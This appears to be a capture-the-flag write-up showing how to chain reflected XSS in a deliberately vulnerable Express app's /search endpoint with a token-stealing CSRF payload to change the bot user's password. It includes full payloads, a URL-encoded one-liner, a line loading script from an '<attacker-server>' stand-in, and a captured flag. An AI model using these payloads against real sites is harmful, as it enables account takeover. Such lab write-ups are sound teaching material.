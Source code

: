 ## js code

<details>
   <summary>code</summary>

```js
const express = require('express');
const session = require('express-session');
const bodyParser = require('body-parser');
const fs = require('fs');
const path = require('path');
const app = express();
const puppeteer = require('puppeteer');


// --------------------------------------------------Auxiliary Code
app.use(bodyParser.urlencoded({ extended: true }));
app.use(session({
    secret: process.env.SESSION_SECRET,
    resave: false,
    saveUninitialized: true
}));

app.use((req, res, next) => {
    if (!req.session.csrfToken) {
        req.session.csrfToken = generateCSRFToken();
    }
    next();
});

const crypto = require('crypto');

function generateCSRFToken() {
    return crypto.randomBytes(32).toString('hex');
}

function verifyCSRF(req, res) {
    const tokenFromBody = req.body._csrf;
    const tokenFromSession = req.session.csrfToken;
    return tokenFromBody && tokenFromSession && tokenFromBody === tokenFromSession;
}

function escapeHTML(str) {
    return String(str).replace(/[&<>"'`=\/]/g, function (char) {
        return {
            '&': '&amp;',
            '<': '&lt;',
            '>': '&gt;',
            '"': '&quot;',
            "'": '&#x27;',
            '`': '&#x60;',
            '=': '&#x3D;',
            '/': '&#x2F;'
        }[char];
    });
}

// Insecure in-memory users database, only for XSS challenge purposes
const users = {
    alice: { username: 'alice', password: 'pass', bio: 'Hi, I am Alice!' },
    bob: { username: 'bob', password: process.env.BOB_PASS, bio: 'Hello from Bob!' }
};

let sharedComments = [];


function isAuthenticated(req) {
    return req.session && req.session.username && users[req.session.username];
}

function renderHTML(filePath, replacements = {}) {
    let content = fs.readFileSync(path.join(__dirname, 'public', filePath), 'utf-8');
    for (let key in replacements) {
        const regex = new RegExp(`{{${key}}}`, 'g');
        content = content.replace(regex, replacements[key]);
    }
    return content;
}

// -------------------------------------------- Routes

app.get('/', (req, res) => {
    if (isAuthenticated(req)) return res.redirect('/profile');
    res.send(renderHTML('login.html', { error: '' }));
});

// Insecure login flow, only for XSS challenge purposes
app.post('/login', (req, res) => {
    const { username, password } = req.body;

    if (users[username] && users[username].password === password) {
        req.session.username = username;

        // Set masterkey cookie
        let masterKeyValue = '';

        if (username === 'alice') {
            masterKeyValue = 'DEMOMASTERKEY';
        } else if (username === 'bob') {
            try {
                masterKeyValue = fs.readFileSync('/tmp/masterkey.txt', 'utf8').trim();
            } catch (err) {
                console.error('[!] Failed to read /tmp/masterkey.txt:', err);
                masterKeyValue = 'ERROR';
            }
        }

        res.cookie('masterkey', masterKeyValue, {
            httpOnly: true, // Not Accessible by javascript code
        });

        return res.redirect('/profile');
    }

    res.send(renderHTML('login.html', { error: '<p class="error">Invalid credentials</p>', csrfToken: req.session.csrfToken }));
});

app.get('/profile', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    const user = users[req.session.username];
    res.send(renderHTML('profile.html', {
        username: escapeHTML(user.username),
        bio: escapeHTML(user.bio),
        csrfToken: req.session.csrfToken}));
});

app.post('/profile', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    if (!verifyCSRF(req, res)) return res.status(403).send('Invalid CSRF token');
    const { bio, password } = req.body;
    const user = users[req.session.username];
    user.bio = bio;
    if (password && password.trim()) user.password = password;
    res.redirect('/profile');
});

app.get('/shared', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    const commentHTML = sharedComments.map(c =>
        `<li><strong>${escapeHTML(c.author)}:</strong> ${escapeHTML(c.text)}</li>`
    ).join('');
    res.send(renderHTML('shared.html', { comments: commentHTML, csrfToken: req.session.csrfToken }));
});

app.post('/shared', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    if (!verifyCSRF(req, res)) return res.status(403).send('Invalid CSRF token');
    const comment = {
        author: req.session.username,
        text: req.body.comment
    };
    sharedComments.push(comment);
    res.redirect('/shared');
});

app.get('/search', (req, res) => {
    if (!isAuthenticated(req)) return res.status(401).send('Unauthorized');

    const query = req.query.query || '';
    if (!query) return res.status(400).send('Query parameter is required');

    const results = sharedComments.filter(c => 
        c.text.includes(query)
    );

    let html = `<h2>Search Results for "${query}"</h2>`;
    if (results.length === 0) {
        html += `<p>No matches found.</p>`;
    } else {
        html += '<ul>';
        results.forEach(c => {
            html += `<li><strong>${escapeHTML(c.author)}:</strong> ${escapeHTML(c.text)}</li>`;
        });
        html += '</ul>';
    }

    html += `<br><a href="/shared">Back to Shared Area</a>`;
    res.send(html);
});



app.get('/logout', (req, res) => {
    req.session.destroy(() => {
        res.redirect('/');
    });
});



app.get('/report', async (req, res) => {
    const targetUrl = req.query.url;

    if (!targetUrl || !targetUrl.startsWith('http://localhost/')) {
        return res.status(400).send('Invalid or missing URL (must start with http://localhost)');
    }

    res.send('Bob is checking it out...');

/**
 * 
 * 
 * 
 * 
 * 
 * BOB AUTOMATED LOGIN CODE 
 * 
 * 
 **/


});



app.listen(80, () => {
    console.log('Running on http://localhost:80');
});

```

  
</details>

---


```javascript
// Insecure in-memory users database, only for XSS challenge purposes
const users = {
    alice: { username: 'alice', password: 'pass', bio: 'Hi, I am Alice!' },
    bob: { username: 'bob', password: process.env.BOB_PASS, bio: 'Hello from Bob!' }
};
```


```ruby
alice : pass
```

----


```javascript
let html = `<h2>Search Results for "${query}"</h2>`;
```

#### **`http://18.201.68.91/search?query=%3Cscript%3Ealert(4)%3C/script%3E`**

<img width="1099" height="294" alt="image" src="https://github.com/user-attachments/assets/1aaf0317-6499-4c51-a30f-518c6bd1a69d" />


---

## httponly is True

```javascript
 res.cookie('masterkey', masterKeyValue, {
            httpOnly: true, // Not Accessible by javascript code
        });
```



## if we try to get cookie using js

```url
http://18.201.112.94/search?query=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E
```

<img width="1477" height="427" alt="image" src="https://github.com/user-attachments/assets/ea719d5a-20a0-44f3-a53f-1e16ca854d3e" />



## found that there is CSRF VULN

```javascript
 app.post('/profile', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    if (!verifyCSRF(req, res)) return res.status(403).send('Invalid CSRF token');
```



## try to change **`bob`** password 


<details>
  <summary>CSRF poc</summary>


```html
<script>
fetch('/profile', {
  method: 'GET',
  credentials: 'include'
})
  .then(response => response.text())
  .then(html => {
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, 'text/html');

    const csrfToken = doc.querySelector('input[name="_csrf"]').getAttribute('value');

    const params = new URLSearchParams();
    params.append('_csrf', csrfToken);
    params.append('bio', 'I\'ve been hacked!');
    params.append('password', 'NewPass');

    return fetch('/profile', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body: params.toString(),
      credentials: 'include'
    });
  })
  .then(postResponse => {
    if (postResponse.ok) {
      console.log('POST successful');
    } else {
      console.error('POST failed');
    }
  })
  .catch(err => console.error('Error:', err));
</script>
```


We can send this to Bob using the ``/report`` endpoint.


```url
http://localhost/search?query=PAYLOAD
```

#### or

```url
http://localhost/search?query=<script src='https://<attacker-server>/payload.js'></script>
```


  
</details>




```
http://localhost/search?query=%3Cscript%3Efetch('/profile'%2C%7Bmethod%3A'GET'%2Ccredentials%3A'include'%7D).then(r%3D%3Er.text()).then(html%3D%3E%7Bconst parser%3Dnew DOMParser()%3Bconst doc%3Dparser.parseFromString(html%2C'text%2Fhtml')%3Bconst token%3Ddoc.querySelector('input%5Bname%3D%22_csrf%22%5D').value%3Bconst params%3Dnew URLSearchParams()%3Bparams.append('_csrf'%2Ctoken)%3Bparams.append('bio'%2C'Hacked!')%3Bparams.append('password'%2C'NewPass123')%3Bfetch('/profile'%2C%7Bmethod%3A'POST'%2Cheaders%3A%7B'Content-Type'%3A'application%2Fx-www-form-urlencoded'%7D%2Cbody%3Aparams.toString()%2Ccredentials%3A'include'%7D)%3B%7D)%3C%2Fscript%3E

```


```
bob : NewPass123
```



<img width="1883" height="770" alt="image" src="https://github.com/user-attachments/assets/5a07512d-94c4-410f-905b-d6a00ee74ee0" />






```
0a3433fb2e41367af97b5712b3d01e37
```

## Conclusion:

- The CSRF was theoretically secured.

- But XSS breaks the protection because you can run the code from within the browser and get the token that is supposed to be secret.

- Since cookies are ``HttpOnly``, you cannot steal them directly.
- Instead, I stole the token and conducted a successful CSRF attack.

### 🔹 In short:

> XSS + CSRF = Full Account Takeover.
> 
> XSS allows you to bypass CSRF restrictions and act as if you were the victim yourself.
























